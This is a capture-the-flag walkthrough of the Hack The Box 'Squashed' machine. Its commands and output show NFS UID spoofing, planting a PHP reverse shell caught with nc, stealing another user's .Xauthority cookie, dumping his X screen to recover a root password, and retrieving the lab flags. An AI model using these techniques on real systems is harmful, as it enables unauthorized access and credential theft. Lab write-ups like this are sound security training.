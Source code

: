 ![Squashed.PNG](/assets/Squashed/Squashed.png)

1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.11.191
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.11.191
```

**Output**
```bash
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
43463/tcp open  unknown
46301/tcp open  unknown
50059/tcp open  unknown
53411/tcp open  unknown
```


#### **NFS (Network File System)**
NFS is a server/client system enabling users to share files and directories across a network and allowing those shares to be mounted locally

3. Look shares hosted on target machine.
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Squashed]
└─| showmount -e squashed.htb
Export list for squashed.htb:
/home/ross    *
/var/www/html *
```



4. Mount the directories
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Squashed]
└─| mount -t nfs squashed.htb:/var/www/html /mnt/1
```

---

```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Squashed]
└─| mount -t nfs squashed.htb:/home/ross /mnt/2
```

5. Look the permissions of each directory
```bash
┌──(root㉿kali)-[/mnt]
└─| ls -ld 1 
drwxr-xr-- 5 2017 www-data 4096 Nov 11 19:15 1
```

---

```bash
┌──(root㉿kali)-[/mnt]
└─| ls -ld 2
drwxr-xr-x 14 1001 1001 4096 Nov 11 16:54 2
```

6. Now, we can try to add a false user with the same permission of `/mnt/1` (**2017**)


```bash
┌──(root㉿kali)-[/mnt]
└─| useradd xela
```

---

```bash
┌──(root㉿kali)-[/mnt]
└─| usermod -u 2017 xela
```

---

```bash
┌──(root㉿kali)-[/mnt]
└─| groupmod -g 2017 xela
```


7. Yup!, we can add files into **1 directory**, in this case add **reverse_shell.php**

8. Listen with nc

9. Make petition to **reverse_shell.php** into navigator.

![revshell.PNG](/assets/Squashed/revshell.PNG)


10. Now, we can obtain a reverse shell
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Squashed]
└─| nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.191] 58116
Linux squashed.htb 5.4.0-131-generic #147-Ubuntu SMP Fri Oct 14 17:07:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 00:29:00 up  2:35,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               21:54    2:35m 14.39s  0.05s /usr/libexec/gnome-session-binary --systemd --session=gnome
uid=2017(alex) gid=2017(alex) groups=2017(alex)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
alex
```

11. Spawn a `/bin/bash` 
```bash
$ python3 -c "import pty; pty.spawn('/bin/bash')"
alex@squashed:/$ 

```

12. Cat a **user flag** in path `/home/alex`

```bash
alex@squashed:/home/alex$ cat user.txt
cat user.txt
b71517c79a0ccaf0e97230b0bf0f58c7
```


### **It's time to escalate privileges** 🐓
1. Create a false user with the same permission of `/mnt/2` (**1001**)

```bash
┌──(root㉿kali)-[/mnt]
└─| useradd ssor        
```                                                                                  

```bash
┌──(root㉿kali)-[/mnt]
└─| usermod -u 1001 ssor 
```  

```bash          
┌──(root㉿kali)-[/mnt]
└─| groupmod -g 1001 ssor 
```     
                                                                             
```bash   
┌──(root㉿kali)-[/mnt]
└─| su ssor
```

2. Search all files into **2 directory**
```bash
$ ls -la
```

**Output**
```bash
drwxr-xr-x 14 ssor ssor 4096 Nov 11 16:54 .
drwxr-xr-x  4 root root 4096 Nov 11 19:18 ..
lrwxrwxrwx  1 root root    9 Oct 20 09:24 .bash_history -> /dev/null
drwx------ 11 ssor ssor 4096 Oct 21 10:57 .cache
drwx------ 12 ssor ssor 4096 Oct 21 10:57 .config
drwxr-xr-x  2 ssor ssor 4096 Oct 21 10:57 Desktop
drwxr-xr-x  2 ssor ssor 4096 Oct 21 10:57 Documents
drwxr-xr-x  2 ssor ssor 4096 Oct 21 10:57 Downloads
drwx------  3 ssor ssor 4096 Oct 21 10:57 .gnupg
drwx------  3 ssor ssor 4096 Oct 21 10:57 .local
drwxr-xr-x  2 ssor ssor 4096 Oct 21 10:57 Music
drwxr-xr-x  2 ssor ssor 4096 Oct 21 10:57 Pictures
drwxr-xr-x  2 ssor ssor 4096 Oct 21 10:57 Public
drwxr-xr-x  2 ssor ssor 4096 Oct 21 10:57 Templates
drwxr-xr-x  2 ssor ssor 4096 Oct 21 10:57 Videos
lrwxrwxrwx  1 root root    9 Oct 21 09:07 .viminfo -> /dev/null
-rw-------  1 ssor ssor   57 Nov 11 16:54 .Xauthority
-rw-------  1 ssor ssor 2475 Nov 11 16:54 .xsession-errors
-rw-------  1 ssor ssor 2475 Oct 31 06:13 .xsession-errors.old
```


* Existence of file **.Xauthority** we tell exist any program for manager GUI with windows.

* **.Xauthority**: This file is used to store credentials into a cookie. When a session is then used to authenticate.

* The idea is stole this credentials with our user **ssor**



3. Read this credential in base64 to evitate errors
```bash
$ cat .Xauthority | base64
AQAADHNxdWFzaGVkLmh0YgABMAASTUlULU1BR0lDLUNPT0tJRS0xABB6mDSUNLTGqArocGpxSMYi
```

4. Put this credential decode into a directory `/tmp` on target machine.

```bash
alex@squashed:/home/alex$ echo "AQAADHNxdWFzaGVkLmh0YgABMAASTUlULU1BR0lDLUNPT0tJRS0xABB6mDSUNLTGqArocGpxSMYi" | base64 -d > /tmp/.Xauthority
```

5. Create a environment variable
```bash
alex@squashed:/tmp$ export XAUTHORITY=/tmp/.Xauthority
```

6. To stole the credential first should know what screen is using by **ross**

```bash
alex@squashed:/tmp$ w
w
 00:53:57 up  3:00,  1 user,  load average: 0.01, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               21:54    3:00m 16.58s  0.05s /usr/libexec/gnome-session-binary --systemd --session=gnome
```

* He is using `:0`


7. Use **xwd** to dump screen 
```bash
alex@squashed:/tmp$ xwd -root -screen -silent -display :0 > /tmp/screenross.xwd
```

8. Create a server in current directory and download **screenross.xwd** file in our machine.

```bash
alex@squashed:/tmp$ python3 -m http.server
```

---

```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Squashed]
└─| wget http://squashed.htb:8000/screenross.xwd
```

9. Use **convert** to tranform data into **png** file
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Squashed]
└─| convert screenross.xwd screenross.png
```

10. Open the image

![creds.PNG](/assets/Squashed/creds.PNG)


11. Log with ssh
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Squashed]
└─| ssh root@squashed.htb
```

12. Cat the **root flag**s

```bash
root@squashed:~| cat root.txt 
504ad8cb4e3d2babaa19f29cfce0afa7
```